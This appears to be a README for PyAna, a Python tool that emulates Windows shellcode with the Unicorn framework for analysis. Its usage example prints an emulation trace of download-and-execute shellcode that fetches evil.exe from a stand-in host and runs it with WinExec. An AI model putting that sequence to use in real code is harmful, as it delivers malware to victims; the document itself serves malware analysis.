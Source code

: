 #PyAna
PyAna - Analyzing the Windows shellcode.
Using Unicorn Framework for emulating shellcode. PyAna emulate a process on Windows: PEB, TIB, LDR_MODULE to create a emulative environment.

#Usage
* From commandline type: PyAna.py [shellcode]
* Ex: PyAna.py UrlDownloadToFile.sc . Show report:
    -  Emulate w32Shell Start...
    - 0x4014b:	call LoadLibraryA('urlmon')
    - 0x4017a:	call GetTempPathA(len=0x104, buf=0x41fe4)
    - 0x401b2:	call URLDownloadToFileA(Url=http://blahblah.com/evil.exe0,
    LocalPath=c:\users\r06u3\appdata\local\tempdEbW.exe)
    - 0x401bd:	call WinExec('c:\users\r06u3\appdata\local\tempdEbW.exe', 1)
    - 0x401cb:	call ExitProcess(0x755c3a63)
    - Emulation done...

#Dependencies
PyAna depends on :
* [Unicorn Framework] developing by Nguyen Anh Quynh. 
* [pefile] developing by Ero Carrera

#Status
* Implement in Python using Unicorn binding
* Emulating  a simple shellcode: calc, UrlDownloadToFile
* Windows system structure emulator is not completely
* A few of Win32 API hooking

#TODO
* support PE file on Windows
* support unpacking
* apply on fuzzing, exploit detection.

#Under development.
 [//]: # (these are link referrence for dependencies packages)
   [Unicorn Framework]: <http://www.unicorn-engine.org/>
   [pefile]: <https://github.com/erocarrera/pefile>
   